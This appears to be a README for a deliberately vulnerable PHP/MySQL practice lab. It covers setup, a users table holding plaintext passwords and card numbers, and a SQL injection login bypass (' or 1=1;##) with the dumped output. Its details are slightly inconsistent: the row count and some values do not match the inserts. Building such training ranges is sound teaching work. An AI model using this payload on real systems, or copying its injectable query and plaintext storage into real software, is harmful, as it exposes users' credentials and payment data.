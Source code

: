 # simplefiringrange

for Ubuntu 16

apt install apache2 mysql-server php php-mysqli php-gd libapache2-mod-php git

During this fun process, mysql should pop up a big purple screen asking for root password do your thang make that password hello123 do it!

apt-get install phpmyadmin php-mbstring php-gettext

vi config.inc.php and adjust the password

systemctl restart apache2

<site>/phpmyadmin
  
# got gui? 

click and make a database named brett

click and make a table named users with this structure:

username: varchar 24

password: varchar 24

email: varchar 24

creditcard: varchar 24


then click insert and put some users in. don't forget to click go!

you get stuff like this going on:

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('miyuki', 'hello', 'm@m.com', '');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('admin', 'password', 'admin@app.com', '4024007183948511');

INSERT INTO `users` (`username`, `password`, `email`, `creditcard`) VALUES ('brett', 'Hell123!', 'brett@app.com', '349256618723322');



now you should be able to browser and get stuff going

try this: enter ' or 1=1;## for the password

you want to get to this point:

sql: SELECT * FROM users WHERE username = 'brett' and password = '' or 1=1;-- '

Select returned 2 rows.

Email: admin@app.com,CreditCard: 4024007183948511,Password: password

Email: brett@app.com,CreditCard: 349256618723322,Password: Hello123! 

Email:m@m.com,CreditCard: 3533497685860304,Password: hello 







